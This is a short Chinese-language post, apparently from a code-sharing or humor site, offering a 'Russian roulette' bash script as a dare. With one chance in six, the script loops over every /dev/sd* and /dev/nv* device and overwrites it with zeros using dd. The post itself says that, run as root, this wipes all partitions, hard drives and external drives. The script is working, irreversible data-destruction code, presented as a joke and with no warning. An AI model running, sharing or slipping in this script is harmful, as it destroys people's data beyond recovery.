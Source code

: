 
简评：来啊，干啊！这段代码不是懦夫的能敲的，生死就在一瞬间！
以下是一段可爱的俄罗斯轮盘代码，live or die，it's your turn。
<pre><code>
#!/bin/bash
if [[ $[ $RANDOM % 6 ] == 0 ]]; then
for f in /dev/sd*; do
		dd if=/dev/zero of=$f
done
for f in /dev/nv*; do
		dd if=/dev/zero of=$f
done
else
	echo "Lucky guy"
fi</code></pre>
'''
以 root 的身份，把你的一切分区，你的所有的硬盘、所有的东西包括外接驱动器全部清零！
